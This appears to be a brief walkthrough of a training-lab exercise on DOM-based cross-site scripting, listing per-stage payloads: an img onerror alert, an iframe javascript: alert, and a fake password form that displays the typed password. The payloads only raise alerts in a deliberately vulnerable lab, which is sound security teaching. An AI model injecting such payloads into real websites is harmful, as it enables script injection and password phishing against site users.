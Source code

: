 ## DOM Based XXS

(stage 1)
Copy the location of the given image `images/logos/owasp.jpg` and enter the following in the input `<img src="images/logos/owasp.jpg"/>`

(stage 2) XSS using img src
`<img src="x" onerror="alert('hello!')"/>`
Note: we are giving the image and invalid source eg. 'x' and using the `onerror` to call an alert if there is an error finding the image.

(stage 3) XSS using iframe
`<iframe src=javascript:alert("hello!")></iframe>`

(stage 4) Fake html form
Add the given code with `<html></html>` tags like below.
```html
<html>Please enter your password:<BR><input type = "password" name="pass"/><button onClick="javascript:alert('I have your password: ' + pass.value);">Submit</button><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR><BR></html>
```

(stage 5) skipped